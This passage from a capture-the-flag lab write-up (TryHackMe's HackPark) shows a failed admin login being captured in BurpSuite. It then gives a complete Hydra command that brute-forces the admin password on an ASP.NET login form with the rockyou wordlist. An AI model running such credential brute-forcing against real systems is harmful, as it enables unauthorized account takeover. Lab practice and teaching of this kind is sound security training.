 ## Task 2

We fire up BurpSuite to analyze the traffic, then attempt to login in with username admin and password admin:

![hackpark-failedlogin](/assets/images/2021-01-30-17-00-13.png)

THe login failed but we captured the traffic in Burp:

![hackpark-post](/assets/images/2021-01-30-16-30-29.png)

We can see the request was a POST which helps with task 2. We can also see the data that was sent in the login request in the __VIEWSTATE= section at the bottom.

Using what we now know we can try to brute force our way in using Hydra:

```text
kali@kali:~/thm/hackpark$ hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.60.43 http-post-form "/Account/login.aspx:__VIEWSTATE=v2%2FpJf5g0ju42LmZjbFdycrJfqFRSYkfOeJv79XeFKiaHtyhjCJjBQm1e9%2FRbOLxqHnKaQArzfzFSAs%2BB5yFhKneHbgLcTy2s9BkQahPVGqJN64Bm5RKsjOGVbzkCjudOIBh%2BfiJAqTbe71eFBWNclsZyPv7QSI67TEU7zwWHapnLQ9K3wyYD0ePtW5g9Iu9u4SWan8B5cB%2Fqq%2FcLP%2FMEXyfeW%2Fgo30FHMuQhhTPj0a%2BOGdWlsUW6l0tIMSnHIb0cMHicQoK8SJ%2BiwqCrr5Tx8gPrSPbJr%2BB%2FZnpS7yo6B%2Frvon2P9GjeUH9v7JnjNhQJdd1ZN4IkXUtHgr667K2i59pL68rQ7qh%2Bvo7fc8tlXSnvp9B&__EVENTVALIDATION=RnYbEyzGTU2QAUGmkxHo4YsUdSsZDJuXW6HD97WnUyh0jLqmpusHutkSu1kwFAQ8ngHp89xLzPrswQvsP%2BaggtUD5JbMnL2WJVHdDOySSuHq0jKT6IeISlH2JhdbV1SaS4wji37q96RuvkTbQpBS%2BEh9JSd%2FmnhA64WN1sQaG0X4Zon6&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```
